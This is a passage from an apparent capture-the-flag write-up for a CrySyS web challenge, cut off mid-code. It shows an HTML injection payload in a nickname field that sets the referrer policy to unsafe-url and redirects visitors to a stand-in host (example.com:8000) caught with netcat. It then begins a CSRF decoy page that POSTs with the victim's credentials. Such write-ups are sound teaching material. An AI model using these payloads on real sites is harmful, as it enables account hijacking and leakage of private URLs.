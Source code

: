 We cannot read other users' 
blueprints even if we know the uuid.

## Identifying blueprints

We can use the `nickname` to inject 
a meta refresh tag into the html,
 this can
redirect the visitor to whatever 
page we like. It would be nice to 
know the origin of
the traffic but unfortunately the 
referrer is not forwarded. At least
that's how I solved the challenge.... But it has turned out later that we can override the referrer policy from a html meta element. Go full throttle and set it to `unsafe-url`.

The combined redirect 'nickname' 
will be something like:

```html
</title>
<meta name="referrer" content="unsafe-url">
<meta http-equiv="refresh" content="0; url='http://example.com:8000'">
<title>
```

and we set up netcat at `example.com`:


```bash
> nc -l 8000
```

We can steal our own referrers 
by going to `https://initiative.secchallenge.crysys.hu/blueprints/random`.

The next step is to hijack the bot 
account somehow. Let's create a 
small html file with some JavaScript in it.
This will send a POST request to 
whoever visits the page and changes 
his own nickname to what we specify.

We are not allowed to run scripts
in the real website but nothing 
prevents us from issuing a POST
from our own context.

There is a little bit of 
hand-waving here, and there can 
be small syntax errors, but 
our `decoy.html` would be something like:

```html
<html>
<body>
    <script>
       
        function setNickname(nickname) {
            return fetch("https://initiative.secchallenge.crysys.hu/settings", {
                "headers": {
                    "content-type": "application/x-www-form-urlencoded",
                },
                "body": `nickname={escape(nickname)}`,
                "method": "POST",
                "mode": "no-cors",
                "credentials": "include"
            })
        }
```